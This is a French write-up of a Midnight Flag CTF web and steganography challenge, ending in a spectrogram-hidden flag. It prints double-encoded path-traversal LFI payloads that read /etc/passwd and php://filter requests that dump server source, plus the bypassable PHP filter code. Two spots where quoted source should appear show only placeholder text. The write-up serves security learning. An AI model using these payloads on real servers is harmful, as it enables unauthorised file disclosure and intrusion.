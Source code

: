 # CTF Midnight Flag : INEKTION

## Web / Stéganographie

### Challenge : To be private or not to be private 

**Auteur :** Spownark / **Points :** 500


L'énoncé du challenge nous donne le site suivant : 
[https://cloud.midnightflag.fr/index.php](https://cloud.midnightflag.fr/index.php)

En manipulant l'URL, je m'aperçois rapidement qu'une faille LFI est exploitable.
Je commence donc à injecter un payload avec double encodage afin de récupérer le contenu du fichier **/etc/passwd** :
`https://cloud.midnightflag.fr/index.php?categorie=..%252f..%252f..%252fetc%252fpasswd`

J'ai bien le contenu du fichier en retour mais je ne vois aucun utilisateur ou service exploitable :
![cloud0.png](./Images/cloud0.png)

J'essaye par la suite d'obtenir une RCE via différents payloads LFI mais rien de concluant.

Je décide donc de télécharger le contenu du fichier index.php grâce au wrapper PHP filter :
`https://cloud.midnightflag.fr/index.php?categorie=php:%252F%252Ffilter%252Fconvert.base64-encode%252Fresource=index.php`

Avec cette requête, je récupère le contenu du fichier index.php en base64 directement sur la page web.

Après décodage, je vois le code PHP suivant correspondant aux filtres LFI appliqués (bypass de la fonction via double encodage) :
```php
    <?php
    function lfi_filter($value)
    {
        $omit_words = array('..', '../', '/');
        rsort($omit_words);
        $new_string = str_replace($omit_words, '', $value);
        return $new_string;
    }
    
    if (isset($_GET["categorie"])) {
      $categorie = lfi_filter($_GET["categorie"]);
      include urldecode($categorie);
    }else {
      include 'home.php';
    }
    ?>
```
A partir de cet instant, je cherche un petit moment avant de poursuivre le challenge car le code PHP récupéré nous donne aucune information supplémentaire.
Le fuzzing n'étant pas autorisé sur ce challenge, il est venu le temps du **#guessing** !

En regardant le nom du challenge et par rapport à la structure du site, après multiples tentatives je tente de joindre la page private.php : [https://cloud.midnightflag.fr/index.php?categorie=private.php](https://cloud.midnightflag.fr/index.php?categorie=private.php) et j'ai bien un retour !

Je récupère donc le code source de cette page avec le même payload que précédemment :
`https://cloud.midnightflag.fr/index.php?categorie=php:%252F%252Ffilter%252Fconvert.base64-encode%252Fresource=private.php`

J'obtiens le code source suivant :
```html
Source code
```
Je remarque le commentaire suivant avec des chars en ASCII : `Source code`

Après conversion, je récupère la valeur suivante : **personal**

Je suppose donc que le site possède une catégorie personal, je me rend donc sur l'URL [ https://cloud.midnightflag.fr/index.php?categorie=personal.php](https://cloud.midnightflag.fr/index.php?categorie=personal.php) et je tombe sur un enregistrement audio au format wav.

Après téléchargement de l'enregistrement, je l'ouvre avec le logiciel Audacity afin d'analyser le contenu.

L'audio généré par l'enregistrement me laisse penser qu'une information est présente dans le spectrogramme.

Après inversion de la piste audio et analyse du spectre, je récupère l'information suivante :
![cloud1.png](./Images/cloud1.png)

Flag : MCTF{H1d3_Y0uR_S3cRe7s}
